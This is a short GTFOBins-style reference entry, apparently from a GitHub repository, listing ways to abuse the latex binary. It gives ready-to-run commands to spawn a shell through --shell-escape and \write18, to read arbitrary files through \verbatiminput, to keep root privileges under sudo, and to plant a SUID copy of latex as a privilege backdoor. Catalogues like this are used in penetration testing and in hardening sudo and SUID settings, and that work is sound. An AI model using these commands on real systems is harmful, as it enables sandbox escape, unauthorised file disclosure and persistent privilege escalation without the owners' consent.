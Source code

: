 # GTFOBin: latex

## Shell

It can be used to break out from restricted environments by spawning an interactive system shell.

```
latex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
```

## File read

It reads data from files, it may be used to do privileged reads or disclose files outside a restricted file system.

The read file will be part of the output.

```
latex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
strings article.dvi
```

## Sudo

If the binary is allowed to run as superuser by `sudo`, it does not drop the elevated privileges and may be used to access the file system, escalate or maintain privileged access.

The read file will be part of the output.

```
sudo latex '\documentclass{article}\usepackage{verbatim}\begin{document}\verbatiminput{file_to_read}\end{document}'
strings article.dvi
```

```
sudo latex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
```

## Limited SUID

If the binary has the SUID bit set, it may be abused to access the file system, escalate or maintain access with elevated privileges working as a SUID backdoor. If it is used to run commands (e.g., via `system()`-like invocations) it only works on systems like Debian (<= Stretch) that allow the default `sh` shell to run with SUID privileges.

This example creates a local SUID copy of the binary and runs it to maintain elevated privileges. To interact with an existing SUID binary skip the first command and run the program using its original path.

```
sudo install -m =xs $(which latex) .

./latex --shell-escape '\documentclass{article}\begin{document}\immediate\write18{/bin/sh}\end{document}'
```